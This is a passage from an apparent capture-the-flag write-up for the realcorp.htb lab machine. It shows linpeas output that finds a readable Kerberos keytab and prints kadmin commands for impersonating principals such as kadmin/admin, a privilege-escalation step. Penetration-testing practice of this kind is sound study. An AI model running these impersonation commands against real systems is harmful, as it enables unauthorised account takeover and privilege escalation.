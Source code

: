 ![](screenshots/k5admin.png)


## [kadmin](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html)


Runing linpeas from "admin" found some intresting kerberos information.

Found [kadmin](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html) utility
```bash
kadmin was found on /usr/bin/kadmin
```

Found readable [`krb5.keytab`](https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-install/The-Keytab-File.html) file
```bash
keytab file found, you may be able to impersonate some kerberos principals and add users or modify passwords
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
```
